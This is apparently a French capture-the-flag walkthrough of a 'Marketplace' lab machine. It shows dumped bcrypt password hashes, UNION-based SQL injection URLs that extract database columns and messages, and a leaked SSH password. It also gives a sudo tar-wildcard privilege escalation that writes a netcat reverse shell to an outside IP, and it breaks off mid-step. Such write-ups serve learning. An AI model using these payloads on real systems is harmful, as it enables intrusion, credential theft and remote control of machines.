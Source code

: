 ```
```
```
system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW
michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q
jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG
test:$2b$10$A9bFAM511.ryD7eRh8DMGeN00Y/1yNg9.VCn65S9tWKW7EV7VnPHG
```
Je n'arrive pas a les crack, cela prend trop de temps.
Cela ne doit pas être le bon chemin.

## Peut-être dans les messages ?
```
http://10.10.99.234/admin?user=123%20union%20SELECT%20group_concat(column_name),2,3,4%20FROM%20information_schema.columns%20WHERE%20table_schema%20=%20database()%20AND%20table_name%20=%27messages%27
```
```
id,user_from,user_to,message_content,is_read 
```
```
http://10.10.99.234/admin?user=123%20UNION%20SELECT%20group_concat(id,user_from,user_to,message_content,is_read),2,3,4%20FROM%20messages
```
```
113Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_E***********,214Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!1,314Thank you for your report. We have reviewed the listing and found nothing that violates our rules.1,414Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!1,514Thank you for your report. We have reviewed the listing and found nothing that violates our rules.1,614Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!1,714Thank you for your report. We h
```
On a un mot de passe SSH:
```
@b_E*************
```
On a le shell en SSH !

# Privesc to michael !
En faisant un petit **sudo -l** on retrouve un script de backup qui peux être exec en tant que michael:
```
jake@the-marketplace:/$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```
Quand on regarde le script, celui-ci créer une archive avec tout le contenu du dossier:
```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```
On va exploiter les wildcard de Tar afin de récupèrer un shell.
Je créer d'abord un script shell.sh:
```
echo "mkfifo /tmp/f; nc 10.11.50.195 1234 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f" > shell.sh
```
Ensuite, je met en place les checkpoints;